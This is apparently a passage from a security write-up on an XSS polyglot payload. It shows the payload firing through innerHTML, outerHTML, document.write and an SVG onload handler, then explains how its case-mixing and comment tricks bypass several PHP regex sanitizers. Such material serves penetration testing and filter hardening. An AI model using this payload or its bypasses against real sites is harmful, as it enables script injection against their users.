 * __`innerHTML`/`outerHTML` and `document.write` with HTML-escaped strings:__
```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.documentElement.innerHTML = data;

```
_Demo: <https://jsbin.com/nimokaz>_

```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.head.outerHTML = data;

```
_Demo: <https://jsbin.com/yowivo>_

```javascript

var data = "jaVasCript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e";
document.write(data);
document.close();

```
_Demo: <https://jsbin.com/ruhofi>_
* __Event handlers with HTML-escaped values:__
```html
<svg onload="

void 'javascript:/*-/*`/*\`/*&#039;/*&quot;/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert()//&gt;\x3e';

"></svg>
```
_Demo: <https://jsbin.com/puboha>_
## Filter evasion:
As you might have already noticed, the polyglot has been crafted with filter evasion in mind. For instance:

* `jaVasCript:`, `oNcliCk`, et al. bypasses: 
```php
preg_replace('/\b(?:javascript:|on\w+=)/', '', PAYLOAD);
```

* ``` /*`/*\` ``` bypasses: 
```php
preg_replace('/`/', '\`', PAYLOAD);
```

* ``` </stYle/</titLe/</teXtarEa/</scRipt/--!> ``` bypasses: 
```php
preg_replace('/<\/\w+>/', '', PAYLOAD);
```
